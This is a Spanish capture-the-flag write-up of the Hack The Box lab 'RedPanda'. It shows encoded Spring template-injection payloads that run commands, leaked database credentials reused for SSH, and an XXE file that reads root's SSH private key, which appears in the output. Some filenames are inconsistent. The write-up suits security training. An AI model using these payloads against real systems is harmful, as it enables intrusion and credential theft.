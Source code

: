 ```yaml
---
title: Red Panda Writeup
published: true
---
```




Hoy resolveremos la máquina retirada "RedPanda" es una máquina de hack the box de dificultad fácil.


![RedPanda](https://user-images.githubusercontent.com/109216235/185928422-3e828dfa-543c-4e4f-b1e0-c1a2fdced03b.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la maquina con nmap


```nmap
nmap -sC -sV -T4 10.10.11.170

Nmap scan report for 10.10.11.170
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy

```

Con este analisis podemos ver que tiene el puerto ssh y el puerto http abierto. Esto nos hace enteder que esta maquina tiene un puerto para acceder de forma remota y un puerto para poder acceder en internet


![imagen](https://user-images.githubusercontent.com/109216235/185764843-feace9a3-e2e5-43e9-a1c4-3271e7620de2.png)


# [](#header-2) Vulnerabilidad


Dentro de la pagina vemos un buscador y probando payloads vemos que nos bloquea el caracter $


![imagen](https://user-images.githubusercontent.com/109216235/185764827-93488e1f-c4de-4f1c-b9fb-d89c58276616.png)


Probamos con el caracter * y vemos que si que nos deja


![imagen](https://user-images.githubusercontent.com/109216235/185764892-8e6c1201-4efe-42bd-a6c4-26852677a38e.png)


Sabiendo esto usando esta herramienta de VikasVarshney https://github.com/VikasVarshney/ssti-payload podemos crear un payload que nos permita ejecutar comandos en el buscador. Si ponemos este payload en el buscador conseguiremos la "user.txt".


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Utilizando la misma tecnica encontramos un archivo en esta ruta /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java Utilizando este payload 


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```


Y nos devuelve esto


```javascript
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
stmt.setString(1, "%" + query + "%");
```


Este output nos indica un posible usuario y una posible contraseña. Probando conseguimos acceder al ssh


```bash
ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
```


# [](#header-3) Escalada de privilegios


Ahora subimos "pspy" al servidor y vemos que root corre un script como woodenk.

```python3
CMD: UID=0    PID=8420   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=8422   | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=8423   | /usr/bin/find /tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8424   | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8425   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8426   | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ;
CMD: UID=1000 PID=8429   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8430   | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8432   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```


Revisando de nuevo el archivo donde encontramos credenciales vemos como exporta el xml


```python3
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
  public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }

```

Vemos también como el archivo App.java maneja los metadatos

```python3
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

Mirando esta configuración podemos modificar el campo "Artist" de una imagen cualquiera que después subiremos a la máquina

```python3
wget "https://avatars.githubusercontent.com/u/95899548?v=4"
Longitud: 33411 (33K) [image/jpeg]
Grabando a: «758475?v=4»

758475?v=4               100%[====================================>]       

«758475?v=4» guardado [33411/33411]

mv 758475\?v=4 eskere.jpg

exiftool -Artist="../home/woodenk/privesc" eskere.jpg
    1 image files updated
    
scp gato.jpg woodenk@10.10.14.28:.
woodenk@10.10.11.170's password: RedPandazRule
gato.jpg                                                 100%
```

A continuación creamos un archivo XML que apunte a la id_rsa de root en el directorio home.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/eskere.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Hacemos una petición curl con el formato de que vimos en el archivo como User-Agent


```curl
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/eskere.jpg"
```


Exportamos el xml desde /stats que coja nuestro archivo

Despues de un rato revisamos el xml y tendra el id_rsa de root


```xml
cat privesc_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/eskere.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

Finalizamos introduciendo el id_rsa para conectarnos por ssh y conseguir la root.txt

```bash
ssh root@10.10.11.170 -i id_rsa
root@redpanda:~# cat root.txt 
```
